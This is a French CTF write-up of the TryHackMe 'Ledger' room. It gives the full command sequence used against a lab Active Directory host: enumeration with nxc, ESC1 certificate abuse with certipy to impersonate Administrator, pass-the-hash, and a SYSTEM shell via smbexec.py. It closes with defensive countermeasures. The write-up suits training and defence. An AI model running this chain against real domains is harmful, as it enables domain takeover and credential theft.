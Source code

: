 
---


````markdown
# 🧾 TryHackMe - Ledger – Write-up Complet (FR)

**Room :** [https://tryhackme.com/room/ledger](https://tryhackme.com/room/ledger)

---

## 🧠 Objectif

Exploiter une machine Windows Active Directory vulnérable (`labyrinth.thm.local`) pour obtenir une exécution de commande en tant qu’administrateur de domaine via une attaque AD CS (ESC1) et la réutilisation de hash NTLM.

---

## 🔍 1. Scan et découverte initiale

### 🔎 Scan Nmap

nmap -Pn -sC -sV -T4 -p- labyrinth.thm.local
````

* Port 445 (SMB) ouvert : cible un contrôleur de domaine Windows.
* Ports 389 (LDAP) et 88 (Kerberos) également ouverts, environnement Active Directory confirmé.

### 🛠️ Préparation

Ajout dans `/etc/hosts` :

```
<IP> labyrinth.thm.local thm.local LABYRINTH
```

### 🧪 Tests d'accès invités

nxc smb labyrinth.thm.local -u 'guest' -p ''
nxc ldap labyrinth.thm.local -u 'guest' -p '' --users
```

✅ Plusieurs utilisateurs récupérés, dont deux partagent le même mot de passe.

### 🔐 Accès initial

nxc smb labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p '[REDACTED]'
```

✅ Connexion confirmée.
Utilisation de Remmina pour ouvrir un accès graphique RDP.
📁 `user.txt` récupéré.

---

## 🧩 2. Exploitation d'AD CS – ESC1

### 🔬 Découverte de la vulnérabilité


certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p '[REDACTED]' -target labyrinth.thm.local -stdout -vulnerable
```

* Modèle de certificat vulnérable : **ServerAuth**.

### ❗ Détails de la faille ESC1

* ESC1 (Enterprise Security Control 1) permet de forger un certificat pour n’importe quel utilisateur, même Domain Admin.
* Conditions :

  * `ENROLLEE_SUPPLIES_SUBJECT` activé
  * `Client Authentication EKU` présent
  * Groupe `Authenticated Users` peut s’enrôler

### 📥 Requête de certificat en se faisant passer pour l’administrateur

certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password '[REDACTED]' \
  -ca thm-LABYRINTH-CA -template ServerAuth \
  -target labyrinth.thm.local -upn Administrator@thm.local
```

✔️ Un certificat `.pfx` est généré.

### 🪪 Authentification avec le certificat

certipy-ad auth -pfx administrator.pfx
```

✔️ Récupération d’un hash NTLM valide du compte Administrator.

---

## 🔁 3. Test du hash NTLM (Pass-the-Hash)

cme smb labyrinth.thm.local -u Administrator -H 07d677XXXXXXX322 --kdcHost labyrinth.thm.local
```

✔️ Accès administrateur confirmé. 🎉

---

## 🚀 4. Exécution de commande à distance (Shell SYSTEM)

smbexec.py -k -hashes :07d677XXXXXXX322 THM.LOCAL/Administrator@labyrinth.thm.local
```

✅ Shell SYSTEM via SMB.
📁 Récupération de `root.txt`.

---

## 🔐 5. Bonnes pratiques défensives (Blue Team)

| Problème                        | Contremesure recommandée                                  |
| ------------------------------- | --------------------------------------------------------- |
| SMB exposé                      | Restreindre les accès SMB aux hôtes autorisés             |
| Pass-the-Hash NTLM              | Activer LAPS, Forcer Kerberos (désactiver NTLM)           |
| ESC1 sur modèles de certificats | Désactiver ENROLLEE\_SUPPLIES\_SUBJECT, restreindre accès |
| Pas de monitoring ADCS          | Auditer les requêtes de certificats                       |
| Pas de journalisation 4625      | Activer l’audit des échecs d’authentification             |
| Aucune segmentation réseau      | Isoler les contrôleurs de domaine                         |
| Pas de détection post-exploit   | Déployer un SIEM avec règles sur smbexec, psexec, wmiexec |

---

## ✅ En résumé

* L’accès initial est facilité par un compte avec mot de passe faible.
* La faille principale repose sur ESC1, mal configuré dans l’Active Directory Certificate Services.
* La réutilisation d’un hash NTLM permet une élévation de privilège jusqu’à Administrator.
* Une exécution de commande à distance est réalisée via SMBExec.

---

## 🧠 Outils utilisés

* nxc (NetExec)
* certipy
* crackmapexec
* smbexec.py

---

## 📌 À retenir pour la défense

* Surveillez les modèles de certificats.
* Ne laissez pas les utilisateurs choisir leurs propres sujets.
* Sécurisez SMB et éliminez NTLM si possible.
* Déployez la journalisation et les alertes ADCS.

```

